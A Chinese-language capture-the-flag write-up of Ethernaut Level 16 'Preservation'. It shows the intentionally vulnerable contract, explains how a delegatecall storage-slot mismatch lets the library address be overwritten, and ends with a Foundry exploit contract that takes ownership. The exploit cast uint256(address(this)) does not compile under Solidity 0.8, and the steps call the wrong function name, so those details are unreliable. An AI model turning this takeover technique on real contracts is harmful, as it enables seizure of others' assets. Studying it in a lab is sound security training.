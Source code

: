 # Level 16 - Preservation

## 題目
[Preservation](https://ethernaut.openzeppelin.com/level/0x7ae0655F0Ee1e7752D7C62493CEa1E69A810e2ed)

### 通關條件
此智慧合約利用一個函式庫來儲存兩個不同時區的兩個不同時間。 建構函數會為每個要儲存的時間創建兩個庫實例。 本關卡的目標是獲得該合約的所有權。
### 提示
- 查閱 Solidity 文檔中的有關低階函數 delegatecall 的信息，包括其工作原理、如何用於委託操作到鏈上庫以及它對執行範圍的影響。
- 理解 delegatecall 保持上下文意味著什麼。
- 理解儲存變數如何儲存和存取。
- 理解不同資料類型之間轉換的工作原理
### 合約內容
```solidity=
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Preservation {
    // public library contracts
    address public timeZone1Library;
    address public timeZone2Library;
    address public owner;
    uint256 storedTime;
    // Sets the function signature for delegatecall
    bytes4 constant setTimeSignature = bytes4(keccak256("setTime(uint256)"));

    constructor(address _timeZone1LibraryAddress, address _timeZone2LibraryAddress) {
        timeZone1Library = _timeZone1LibraryAddress;
        timeZone2Library = _timeZone2LibraryAddress;
        owner = msg.sender;
    }

    // set the time for timezone 1
    function setFirstTime(uint256 _timeStamp) public {
        timeZone1Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
    }

    // set the time for timezone 2
    function setSecondTime(uint256 _timeStamp) public {
        timeZone2Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
    }
}

// Simple library contract to set the time
contract LibraryContract {
    // stores a timestamp
    uint256 storedTime;

    function setTime(uint256 _time) public {
        storedTime = _time;
    }
}
```
## 解題
**delegatecall** 在 [Level 6 - Delegation](https://hackmd.io/@D13/ethernaut6) 用到過，技巧就是呼叫別人的 function 改自己的變數
存變數如何儲存和存取在 [Level 8 - Vault](https://hackmd.io/@D13/ethernaut8)
不同資料類型之間轉換在 [Level 13 - Gatekeeper One](https://hackmd.io/@D13/ethernaut13)


---

先看合約，`Preservation` 在第 21, 26 行皆使用 delegatecall 的方式呼叫另一個合約 `LibraryContract` 裡的 function，但是兩個合約宣告的變數並不相同，在  [Level 6 - Delegation](https://hackmd.io/@D13/ethernaut6) 中有提到過如果要使用 delegatecall 必須要有一樣的變數（包含宣告的順序），所以當我們使用關卡合約 `Preservation` 呼叫 `LibraryContract` 中的 `setTime(uint256 _time)` 時，以 `LibraryContract` 合約來看是修改 `storedTime`；但其實修改到的是 `Preservation` 的 `timeZone1Library` （皆為合約中第一個宣告的變數）。

剛好 `Preservation` 的第一個變數 `timeZone1Library` 是儲存呼叫對象的地址，代表上述提到的 bug 會導致呼叫完 20 行的 `setFirstTime(uint256 _timeStamp)` 後，`timeZone1Library` 被改變，下次再呼叫 `setFirstTime(uint256 _timeStamp)` 時其實是呼叫到不同地址的合約。

透過這個 bug，我們的攻擊流程：
1. 設計一支帶有 `setTime(uint _newOwnerAddress)` 的惡意合約，其功能為將 owner 修改成自己
2. 呼叫 `setTime()` ，參數為我們部署的惡意合約
3. 再次呼叫 `setTime()` ，就會呼叫惡意合約的 function 
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.0;

import "forge-std/Script.sol";
import "../src/Ethernaut Challenge/16_Preservation.sol";

contract ExploitScript is Script {

    function run() external {
        vm.startBroadcast();

        PreservationAttacker preservationAttacker = new PreservationAttacker(your_challenge_address);
        preservationAttacker.attack();

        vm.stopBroadcast();
    }
}

contract PreservationAttacker {
    // 用於符合題目合約的slot
    address public _timeZone1Library;
    address public _timeZone2Library;
    address public owner;
    Preservation level16;

    constructor(address _target) {
        level16 = Preservation(_target);
    }

    function attack() external {
        level16.setFirstTime(uint256(address(this)));
        level16.setFirstTime(uint256(address(msg.sender)));
    }

    function setTime(uint _newOwnerAddress) external {
        owner = address(uint160(_newOwnerAddress));
    }
}
```